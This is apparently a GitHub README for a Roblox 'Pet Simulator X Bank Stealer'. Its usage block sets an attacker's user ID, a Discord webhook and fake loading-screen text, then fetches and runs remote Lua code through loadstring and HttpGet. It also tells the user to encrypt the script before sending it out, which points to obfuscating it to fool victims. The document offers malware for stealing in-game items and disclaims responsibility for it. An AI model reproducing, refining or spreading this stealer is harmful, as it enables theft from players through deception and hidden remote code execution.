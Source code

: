 # Pet Simulator X Bank Stealer
**I am not responsible for any malicious use of this program.**
## Usage

```lua
_G.UserID = 
_G.WebHook = " "
_G.LoadingScreenText = " "
loadstring(game:HttpGet('https://raw.githubusercontent.com/ixhd/PSX-Bank-Stealer/main/aftermath.lua'))()
```

**_G.UserID** as your Roblox User ID

**_G.Webhook** as your Discord Webhook

Please make sure to encrypt the outgoing script!



[Pet Simulator X](https://choosealicense.com/licenses/mit/)

